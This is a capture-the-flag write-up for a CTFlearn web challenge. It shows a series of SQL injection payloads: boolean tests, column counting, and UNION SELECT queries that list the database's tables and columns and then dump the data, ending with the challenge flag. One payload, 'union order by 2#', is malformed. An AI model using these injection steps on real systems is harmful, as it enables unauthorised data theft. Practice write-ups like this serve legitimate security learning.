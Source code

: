 ## basicInjection 

viewing the [pagesource](view-source:https://web.ctflearn.com/web4/)

there are some hints like try these usernames where the username Luke gives us valid page

by using this we can check for basic sql injection for example try `Luke' and 1=1#` if the page reacts as expected
 
then sql injection can be performed, and if you want you can double check it by a wrong input like `Luke' and 1=2#`

this will not give any output. Now i identified how many columns are there  using the order by statement

(i.e)`Luke' union order by 2#` after some trials i found that it has two columns, so i used the select statement to 

get the database name

`Luke' union select database(),null`

and then i queried for the table names 

`Luke' union select table_name,null from information_schema.tables where table_schema='webfour'`

and surprisingly there is only one table and then i just queried for the columns

`Luke' union select column_name,null from information_schema.columns where table_name='webfour'#`

 there are only two columns so i just select the two columns

`Luke' union select name,data from webfour#`

voila i got the flag

`CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}`